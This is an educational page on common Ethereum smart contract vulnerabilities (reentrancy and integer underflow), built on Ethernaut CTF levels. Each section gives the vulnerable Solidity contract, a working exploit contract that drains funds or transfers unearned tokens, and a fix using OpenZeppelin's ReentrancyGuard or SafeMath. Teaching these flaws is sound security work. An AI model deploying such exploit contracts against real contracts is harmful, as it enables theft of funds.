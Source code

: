 # Common vulnerabilities in Ethereum and EVM based chains

Solidity cheatsheet is available in [solidity-cheatsheet](/README.md).

## Table of contents

- [Common vulnerabilities in Ethereum and EVM based chains](#common-vulnerabilities-in-ethereum-and-evm-based-chains)
  * [Table of contents](#table-of-contents)
  * [Motivation](#motivation)
  * [Reentrancy](#reentrancy)
    + [Examples](#reentrancy-example)
    + [How to prevent reentrancy attacks](#how-to-prevent-reentrancy-attacks)
  * [Arithmetic overflows and underflows](#arithmetic-overflows-and-underflows)
    + [Underflow example](#underflow-example)
    + [Overflow and underflow protection](#overflow-and-underflow-protection)

### Motivation

TBD

### Reentrancy

Computer scientists say that a procedure is re-entrant if its execution can be interrupted in the middle, initiated over (re-entered), and both runs can complete without any errors in execution. In the context of Ethereum smart contracts, re-entrancy can lead to serious vulnerabilities. 

The most famous example of this was the DAO Hack, where $70million worth of Ether was siphoned off.

### Reentrancy example
(example from [Ethernaut](https://ethernaut.openzeppelin.com))
```solidity
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result, bytes memory data) = msg.sender.call.value(_amount)("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  fallback() external payable {}
}
```

The above smart contract can be exploited using a simple reentrancy attack. Example below:
```solidity
pragma solidity ^0.6.0;

contract Exploiter {
    address private owner;
    address payable vault = <address of the exploited contract>;
    Reentrancy exploited = Reentrancy(<address of the exploited contract>);
    
    constructor() public payable{
        owner = msg.sender;
    }
    
    modifier onlyOwner {
        require(msg.sender == owner, "Only owner: operation not allowed");
        _;
    }
    
    function deposit() public onlyOwner {
        exploited.donate{value: 1 ether}(address(this));
    }
    
    function attack() public onlyOwner {
        exploited.withdraw(0.5 ether);
    }
    
    function selfkill() public onlyOwner {
        selfdestruct(payable(owner));
    }
    
    fallback() external payable {
        if ( vault.balance > 0 ){
            exploited.withdraw(0.5 ether);
        }
    }
}
```
### How to prevent Reentrancy attacks:

Use the [Openzeppelin](https://github.com/OpenZeppelin/openzeppelin-contracts)'s ReentrancyGuard to block reentrant calls to your functions.

Example: (using the reentrancy guard for the vulnerable contract from above)

```solidity
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/security/ReentrancyGuard.sol';

contract Reentrance is ReentrancyGuard{
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public nonReentrant{
    if(balances[msg.sender] >= _amount) {
      (bool result, bytes memory data) = msg.sender.call.value(_amount)("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  fallback() external payable {}
}
```

Notice the inheritance `contract Reentrancy is ReentrancyGuard` and function definition `function withdraw(uint _amount) public nonReentrant`.

### Arithmetic overflows and underflows
Solidity’s 256 bits Virtual Machine (EVM) brought back overflow and underflow issues. Developers should be extra careful when using uint data types.
You can think of a uint/int data type as a ring buffer, when the limit is exceded, it will start again from the first element(i.e. zero).
Take a look at the following example:
- we have a `uint _var = 0` that means it can store any integer up to 2^256 - 1. Now let's say we want to do the following operation: 
    - `_var = _var + (2**256 - 1) + 5` will give as a value of 4 (because `0 + 2**256 - 1` will give us MAX value, but adding 5 over the max value will overflow the uint and give us 4)

### Underflow example
The following contract is taken from the [Ethernaut](https://ethernaut.openzeppelin.com) CTF, Token level:
```solidity
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

A simple exploit for this contract could be the following:
```solidity
pragma solidity ^0.6.0;

interface Token{
    function transfer(address _to, uint value) external ;
}

contract TokenHacker{
    address tokenAddress = 0x08EABfcd1a1931F3307908EeE726Aa2F4Fe1E3b0;
    Token token;
    
    constructor () public {
        token = Token(tokenAddress);
    }
    
    function hack() public {
        token.transfer(0xa447DB345C0b81aD25B83CFF30E08f6b9fdF6CA6, 50000);
    }
    
}
```

### Overflow and underflow protection
Use the [Openzeppelin](https://github.com/OpenZeppelin/openzeppelin-contracts)'s SafeMath library to avoid underflows and overflows on your data types.

